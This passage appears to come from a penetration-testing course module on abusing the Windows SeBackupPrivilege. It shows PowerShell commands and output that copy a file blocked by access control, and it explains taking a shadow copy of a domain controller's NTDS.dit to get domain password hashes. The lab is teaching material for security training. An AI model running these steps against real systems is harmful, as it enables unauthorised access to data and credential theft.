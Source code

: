 ### Copying a Protected File

With the privilege enabled, it can now be leveraged to copy any protected file.

```powershell
PS C:\> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\htb> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```powershell
PS C:\> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<SNIP>
```

This command shows how sensitive information can be accessed without possessing the required permissions.

### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit` is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. However, this file is locked and is not accessible to unprivileged users.

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the C:\ drive and expose it as the E:\ drive. The NTDS.dit in the shadow copy won't be in use the system.
